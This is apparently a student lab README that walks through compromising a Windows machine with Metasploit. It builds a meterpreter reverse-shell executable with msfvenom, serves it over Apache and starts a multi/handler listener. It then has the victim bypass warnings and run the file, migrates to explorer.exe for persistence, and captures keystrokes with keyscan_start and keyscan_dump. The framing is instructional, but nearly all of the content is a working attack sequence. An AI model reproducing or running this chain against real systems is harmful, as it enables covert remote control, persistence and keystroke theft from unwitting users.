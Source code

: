 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
# PROGRAM:
Find the attackers ip address using ifconfig

# OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/b9eb08be-ee84-48f6-9b95-f75a5ef4c10a)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/32f0f4c0-bd07-48f6-b56b-c6d93b4ed080)

Start apache server sudo systemctl apache2 start and Check the status of apache2

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/a258bd8b-ecc2-4e66-a4ba-3b9e68d89f21)
# Invoke msfconsole:

# OUTPUT:
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/be166b27-1e3d-4627-b73e-390ecff8d1fa)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/e2dfae3b-5418-4315-a71b-14d78539e5fa)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/3c5900dc-2258-4e7f-a1bd-d977f429ae8d)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit
![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/8f30eba6-d8de-497e-a41b-99849624294c)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/4a21515f-43e0-4c6e-83c6-fa4c3b92446b)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/sachinezhilmaran/Compromising-windows-using-Metasploit/assets/128135351/2bb2a213-9dd6-4b39-b475-ba50b17a0e4e)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
